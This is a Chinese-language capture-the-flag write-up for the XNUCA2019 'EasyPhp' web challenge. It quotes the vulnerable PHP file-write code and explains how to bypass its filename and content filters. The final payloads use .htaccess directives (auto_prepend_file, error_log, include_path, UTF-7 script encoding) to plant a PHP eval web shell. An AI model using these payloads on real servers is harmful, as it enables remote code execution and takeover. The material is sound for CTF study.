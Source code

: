 # [XNUCA2019Qualifier] 

## EasyPhp

进入直接给了源码

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    include_once("fl3g.php");
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

大致就是先删除当前目录下非index.php的文件后``include('fl3g.php')``，之后获取filename和content并写入文件中。其中对filename和content都有过滤。filename只能由a-z和单引号构成，并且文件内容结尾还被加上了一行

看了一下能不能直接用``"\"``绕过``flag``，结果发现上传的php后缀文件并不能被正常解析??

看来还是要搞``.htaccess``，但是这里只能上传一次文件....

直接把``.htaccess``解析了就可了

因为这里``if(preg_match("/[^a-z\.]/", $filename) == 1)``

这里可以利用``prce``参数绕过``preg_match``(返回``FALSE``)

```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0 
```

可以利用``#\``绕过``\n``

但是搞``.htaccess``的时候因为URL编码的问题buuoj炸了好几次。。。。

最终payload

```
/?filename=.htaccess&content=filename=.htaccess&content=php_value%20auto_prepend_fi%5c%0ale%20%22.htaccess%22%0a%23%3c%3fphp%20%40eval(%24_REQUEST%5b'eki'%5d)%3b%20%3f%3e%5c
```

用蚁剑连上就可以拿flag了

看了大佬的wp，预期解是php的配置选项中有include_path可以用来设置include的路径

这样就可以利用``include_once("fl3g.php");``了

还是利用``.htaccess``

```
php_value include_path "/tmp"
```

我们首先要在``/tmp``下生成``fl3g.php``,利用apache的log功能

```
php_value error_log /tmp/fl3g.php
php_value error_reporting 32767
php_value include_path "+ADw?php eval($_GET[1])+ADs +AF8AXw-halt+AF8-compiler()+ADs"
# \
```

>这里的``error_reporting 32767``是为了输出所有的错误信息
>https://www.php.net/manual/zh/errorfunc.constants.php

```php
mb_convert_encoding('<?php eval($_GET[1]); ?>',"utf-7");
//+ADw?php eval($_GET[1])+ADs +AF8AXw-halt+AF8-compiler()+AD
```

是采用utf7编码的poc,用来绕过html编码。

然后调用

```
php_value include_path "/tmp"
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# \
```

## 参考资料

[https://github.com/NeSE-Team/OurChallenges/tree/master/XNUCA2019Qualifier/Web/Ezphp](https://github.com/NeSE-Team/OurChallenges/tree/master/XNUCA2019Qualifier/Web/Ezphp)